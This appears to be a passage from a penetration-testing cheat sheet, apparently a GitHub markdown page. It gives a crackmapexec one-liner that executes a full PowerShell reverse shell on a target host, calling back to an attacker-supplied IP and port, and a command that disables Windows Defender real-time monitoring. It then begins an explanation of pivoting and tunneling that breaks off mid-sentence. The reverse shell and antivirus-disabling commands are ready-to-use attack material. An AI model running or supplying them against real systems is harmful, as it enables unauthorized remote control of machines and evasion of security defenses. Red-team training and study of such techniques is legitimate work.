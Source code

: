 ### one liners
#### unknown but supposed to get us a reverse shell
```
sudo crackmapexec smb --exec-method atexec -d <domain> -u xxxxx-p xxxxx -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""<your ip>""""; $port=""""<port>"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};' <target ip>
```
#### Disable AV 
obs: works if you have the right rights to change this 
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

-------------------------------------------------------------------------------------


## Pivoting Tunneling and Port Forwarding
  
During a red team engagement, penetration test, or an Active Directory assessment, we will often find ourselves in a situation where we might have already compromised the required credentials, ssh keys, hashes, or access tokens to move onto another host, but there may be no other host directly reachable from our attack host. In such cases, we may need to use a pivot host that we have already compromised to find a way to our next target. One of the most important things to do when landing on a host for the first time is to check our privilege level, network connections, and potential VPN or other remote access software. If a host has more than one network adapter, we can likely use it to move to a different network segment. Pivoting is essentially the idea of moving to other networks through a compromised host to find more targets on different network segments.

There are many different terms used to describe a compromised host that we can use to pivot to a previously unreachable network segment. Some of the most common are:

    Pivot Host
    Proxy
    Foothold
    Beach Head system
    Jump Host

Pivoting's primary use is to defeat segmentation (both physically and virtually) to access an isolated network. Tunneling, on the other hand, is a subset of pivoting. Tunneling encapsulates network traffic into another protocol and routes traffic through it. Think of it like this:
